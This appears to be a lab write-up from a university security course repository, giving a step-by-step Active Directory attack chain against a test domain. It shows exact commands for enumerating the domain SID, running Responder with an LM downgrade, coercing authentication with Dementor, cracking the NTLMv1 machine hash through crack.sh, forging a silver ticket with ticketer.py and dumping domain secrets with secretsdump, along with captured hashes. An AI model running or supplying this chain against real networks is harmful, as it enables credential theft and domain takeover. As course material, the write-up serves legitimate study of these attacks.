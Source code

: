 You can watch a video walk-through here: https://youtu.be/WuDTcwCjZ5s
# Getting the SID
```bash
enum4linux 192.168.50.135
```
The only information you need to run this command is the IP address of the Domain controller which in my case was 192.168.50.135.
![](https://raw.githubusercontent.com/njg7716/CSEC-742_ADE/main/Pasted%20image%2020210415122818.png)

We find that the SID is "S-1-5-21-3294894903-2995586124-3146476039"
This will be used later when generating the silver ticket.

# Responder
```bash
sudo python Responder.y -I eth0 -wrf --lm
```
Here the argument "--lm" is important because it downgrade the authentication used so that we can use crack.sh for free.

# Dementor
While responder is running, we can use dementor so that responder catches the response.
```bash
python3 dementor.py -u hacker -p ‘WordPass1’ -d CYBERTIGERS 192.168.50.136 192.168.50.135
```
Here the username is "hacker" with password "WordPass1", the domain is cybertigers and the first IP address is the attacker's machine and the second IP is the Domain Controller.
![](https://raw.githubusercontent.com/njg7716/CSEC-742_ADE/main/Pasted%20image%2020210415123018.png)

We get the hash for the machine account to be WIN-A2HCLSJFD0C$::CYBERTIGERS:D8C31819C7D7C02F9EEA1DF384DFC524DD51753DEFB3DA92:D8C31819C7D7C02F9EEA1DF384DFC524DD51753DEFB3DA92:1122334455667788

# NTLM MultiTool
``` bash 
python ntlmv1.py --ntlmv1 "WIN-A2HCLSJFD0C$::CYBERTIGERS:D8C31819C7D7C02F9EEA1DF384DFC524DD51753DEFB3DA92:D8C31819C7D7C02F9EEA1DF384DFC524DD51753DEFB3DA92:1122334455667788"
```
![](https://raw.githubusercontent.com/njg7716/CSEC-742_ADE/main/Pasted%20image%2020210415123624.png)

This output of this command gives the exact syntax to crack the hash using either hashcat or crack.sh

# Crack.sh
![[Pasted image 20210415123723.png]]
You can see from the screenshot I took the output of the last command and put it in crack.sh to crack and did not have to pay. It takes about 30 seconds to crack and I got the token of b704c94f943cd358cc77900267266b65

# Generating a Silver Ticket
```bash
python3 ticketer.py -nthash b704c94f943cd358cc77900267266b65 -domain-sid S-1-5-21-3294894903-2995586124-3146476039 -domain CYBERTIGERS.net -spn "HOST/DC1.CYBERTIGERS.net" Administrator
```
We give ticketer.py the token from crack.sh and it is of type nthash, along with the SID we got earlier, the domain cybertigers, the spn which in this case is the default value, and the Administrator username which is again default in this case.
![[Pasted image 20210415124056.png]]
The output is a file called Administrator.ccache

# DC Sync Time!
```bash
export KRB5CCNAME=Administrator.ccache
```
First you need to set the variable name KRB5CCNAME to the Administrator.ccache in order for secretsdump to work

```bash
python3 secretsdump.py Administrator@DC1.cybertigers.net -k -no-pass
```
Then we can run secrets dump giving it the username Administrator @ DC1 . the domain which is cybertigers.net and then we specify to use Kerberos because we have a silver ticket and to not ask for a password.
![[Pasted image 20210415124416.png]]
And that is it!
